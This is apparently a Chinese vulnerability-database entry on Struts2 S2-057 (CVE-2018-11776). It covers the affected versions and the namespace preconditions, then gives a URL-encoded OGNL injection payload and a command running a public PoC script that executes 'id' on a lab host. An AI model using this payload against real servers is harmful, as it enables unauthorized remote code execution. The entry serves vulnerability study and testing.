 ```yaml
---
title: 'Struts2 S2-057 远程代码执行漏洞(CVE-2018-11776)'
date: Mon, 05 Oct 2020 08:24:14 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 影响环境

Struts <= Struts 2.3.34, Struts 2.5.16

#### 利用

S2-057要求具备以下条件: action元素没有设置名称空间属性，或者使用了通配符 名称空间将由用户从uri传递并解析为OGNL表达式，最终导致远程代码执行漏洞。 Payload:

```
http://your-ip:8080/%24%7b%31%2b%31%7d/actionChain1.action 
```

![](Struts2%20S2-057%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2018-11776)/20200630143132425.png) 



可以看到算出了1+1=2的结果 参考POC ：https://github.com/Fnzer0/S2-057-poc
python 1.py -u http://192.168.111.129:8080/{{INJECTION_POINT}}/actionChain1.action -p S2-057-2 -c id --exp 

![](Struts2%20S2-057%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2018-11776)/2020063014315669.png) 

发现执行了id命令

